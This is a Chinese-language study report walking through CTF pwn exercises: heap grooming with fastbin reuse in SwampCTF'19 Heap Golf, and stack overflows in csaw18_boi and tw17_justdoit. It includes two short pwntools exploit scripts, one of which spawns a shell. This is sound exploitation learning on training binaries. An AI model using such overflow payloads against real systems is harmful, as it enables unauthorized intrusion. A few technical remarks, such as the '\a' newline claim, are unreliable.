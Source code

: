 # Heap Grooming

## SwampCTF'19: Heap Golf

```c
[*] '/home/wanger/桌面/nightmare-master/modules/26-heap_grooming/swamp19_heapgolf/heap_golf1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

什么意思呢？

就是，没有开启pie，堆区地址不变。

我们有两种选择：

1，输入-2，然后所有的chunk都被free了，然后紧接着，又分配一个chunk。大小为0x20。

2，输入一个数字，按照这个数字分配chunk。每分配一个chunk，它的值都会加1。

ida:

```ida
  target = malloc(0x20uLL);
  write(0, "target green provisioned.\n", 0x1AuLL);
  ptr[0] = target;
```

target的指针固定了，就是第一个chunk，不会变了。

至于 ptr数组以后指向谁，都跟target无关。所以我们要做的就是，通过free，malloc来使第一个chunk的值为4。

分配了五个chunk：

![image-20220415131554806](2022.4.18周报.assets/image-20220415131554806.png)

是吧，后面的chunk每个值都是+1。

所以我们就是让第一个chunk值为4.

怎么做：无非接着free所有的chunk，然后再分配。由于是在fastbin里面，后进先出，所以再分配的五个chunk就会跟原来相比倒过来，就好了：

![image-20220415131807996](2022.4.18周报.assets/image-20220415131807996.png)

再分配：

![image-20220415131842010](2022.4.18周报.assets/image-20220415131842010.png)

# 04-bof_variable

记录一下：

## csaw18_boi

有这样一段代码：

```c
  read(0, buf, 24uLL);
  if ( HIDWORD(v5) == 0xCAF3BAEE )
    run_cmd("/bin/bash");
  else
    run_cmd("/bin/date");
  return 0;
```

HIDWORD是说，取高字节部分。

> \#define LOWORD(l)           ((WORD)((DWORD_PTR)(l) & 0xffff))
> \#define HIWORD(l)           ((WORD)((DWORD_PTR)(l) >> 16))
> 这是windef.h头文件中对宏LOWORD和HIWORD的定义。
> 作用分别是取出无符号长整型参数的高16位和低16位。
> 因为一个长整型占32位，其中高低16位的值可能有不同的意义，需要通过这2个宏分别取出来使用。取出来的结果是一个无符号短整型的值。
> 其原理正如定义那样，取低16位的宏LOWORD使用按位与操作符与数字0xffff运算，而数字0xffff是一个低16位全为1的数字，那么对其位与操作可以得到参数的低16位。
> 而取高16位的宏HIWORD则更简单，只需将参数右移16位，剩下的就是原高16位的值了。
>
> 取自百度

右移分为逻辑右移和算数右移。全零操作是逻辑右移。

exp:

```python
from pwn import *
p=process('./boi')
p.recvuntil("Are you a big boiiiii??\n")
payload=b'a'*0x10+p32(0x0)+p32(0xCAF3BAEE)
p.send(payload)
p.interactive()
```

## tw17_justdoit

**NUL** 被用于C语言中，表示字符串的结束，当一个字符串中间出现 NUL 时，就意味着这个是一个字符串的结尾了。**NUL** 是ASCII 字符集中 '\0' **字符**的名字，它的字节模式为全 0。

>  NULL是一个宏，它在几个标准头文件中定义，
>
>  0是一个整型常量，
>
>  '\0'是一个字符常量，
>
>  而NUL是一个字符常量的名字。这几个术语都不可互换。
>
>  1、NULL用于表示什么也不指向，也就是空指针((void *)0)
>
>  2、0可以被用于任何地方，它是表示各种类型零值的符号并且编译器会挑出它
>
>  3、'\0'应该只被用于结束字符串
>
>  4、NUL没有被定义于C和C++，它不应该被使用除非你自己定义它，像：#define nul '\0'

```c
  if ( !strcmp(s, PASSWORD) )
    v6 = success_message;
  puts(v6);
```

我们找一找PASSWORD：

```c
.rodata:080487C8 aPSsw0rd        db 'P@SSW0RD',0      
```

所以我们应该输入P@SSW0RD吗？

不对，是P@SSW0RD加上NUL，也就是**\0**。

不然字符串比较，到最后一个，你有\0，我没有\0，那这也算比较失败。当然，C语言字符串我还没有研究通透，暂且为止。

exp:

```python
from pwn import *
p=process('./just_do_it')
context.log_level='debug'
p.recvuntil("Input the password.\n")
flag=0x0804A080
payload=b'a'*(0x20-0xc)+p32(0x0804A080)
p.sendline(payload)
p.interactive()
```

这是sendline：

![image-20220414165147757](2022.4.18周报.assets/image-20220414165147757.png)

这是send：

![image-20220414165227636](2022.4.18周报.assets/image-20220414165227636.png)

明显能够看到差距，sendline多了一个**\a**。

send的话，在

```c
[*] Switching to interactive mode
```

之后，还要自己按一下回车键才可以回显。

